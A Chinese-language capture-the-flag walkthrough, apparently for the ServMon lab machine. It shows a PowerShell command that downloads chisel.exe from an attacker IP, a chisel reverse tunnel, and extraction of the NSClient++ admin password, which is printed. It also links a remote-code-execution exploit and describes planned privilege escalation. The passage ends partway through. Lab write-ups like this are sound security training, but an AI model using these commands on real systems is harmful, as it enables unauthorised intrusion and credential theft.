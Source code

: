 我们用chisel做一个隧道

把chisel.exe传到靶机
> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.16:8000/chisel.exe','C:\temp\chisel.exe')"

kali开启监听
> ./chisel server -p 8000 --reverse


windows连接
> .\chisel.exe client 10.10.14.16:8000 R:8443:localhost:8443


现在浏览器打开```https://127.0.0.1:8443/```再输入密码，报```403 Invalid password```

说明现在我们是允许登陆这个后台的

所以密码是什么呢？

点击```Forgotten password?```


```
NSClient++ password

The NSClient++ password can be found by running:

nscp web -- password --display

or you can sett a new password:

nscp web -- password --set new-password
```
显示我们用命令可以显示这个密码

来到：```C:\Program Files\NSClient++```

执行命令：```nscp web -- password --display```

```
nadine@SERVMON C:\>cd C:\Program Files\NSClient++

nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT


```

登陆密码是：```ew2x6SsGTxjRwXOT```

根据```NSClient++```关键字，我们在谷歌找到了[这个远程执行代码的exp](https://www.exploit-db.com/exploits/48360)

在这里我试过非常非常多的反弹shell的方法，因为靶机有个antivirus，很多exe文件都不能执行，powershell也不能反弹shell，苦恼。。。

假设这个程序是以超级管理员权限执行的，那么应该不需要反弹shell，把当前用户提升到管理员权限也是可以的

查看当前用户组，在users组
```
nadine@SERVMON c:\Temp>net user nadine
User name                    Nadine
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            14/01/2020 20:36:20                                                                                                                                                               
Password expires             Never
```
